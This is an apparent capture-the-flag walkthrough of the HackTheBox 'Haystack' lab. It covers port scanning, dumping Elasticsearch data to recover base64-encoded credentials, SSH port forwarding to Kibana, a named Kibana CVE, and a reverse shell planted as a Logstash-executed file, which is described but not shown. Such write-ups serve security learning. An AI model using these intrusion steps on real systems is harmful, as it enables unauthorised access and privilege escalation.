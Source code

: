 # Haystack
## IP: 10.129.229.203
First of all I go to /etc/hosts and put 10.129.229.203 haystack.htb

**OPEN PORTS:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9200/tcp open  wap-wsp
```

We have a webpage on port 80
![web80.png](imgs/web80.png)


We have elasticsearch on port 9200

Some searches:
```
# find all the indices
curl -X GET "http://haystack.htb:9200/_cat/indices?v"

# Get all logs
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty&size=10000"
```

Then I used this to find all the base64 strings:
```
cat all_quotes.txt | grep -Eo '([A-Za-z0-9+/]{20,}={0,2})'
```

After I decoded the *base64* strings I got this:
```
cGFzczogc3BhbmlzaC5pcy5rZXk=
dXNlcjogc2VjdXJpdHkg

###

pass: spanish.is.key
user: security 
```

Then I used next command to see open ports:
```
netstat -tulnp

tcp        0      0 127.0.0.1:5601          0.0.0.0:*               LISTEN      -
```

I will have to set up ssh port forwarding to move on:

```
ssh -L [local-port]:[remote-host]:[remote-port] [user]@[remote-host]
ssh -L 5601:127.0.0.1:5601 security@haystack.htb
```

This is our confirmation that port forwarding is working
![kibana](./imgs/kibana.png)

The kibana version is 6.4.2
Here is vulnerability: CVE-2018-17246

```
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty" -H "Content-Type: application/json" -d '{
  "query": {
    "match_phrase": {
      "message": "Ejecutar comando :"
    }
  }
}'
```

Next, looking the kibana config especially at the `input.conf` file I found that it executes everything that is in `/opt/kibana/` named `logstash_*`. Therefore, I put a reverse shell there, and got root!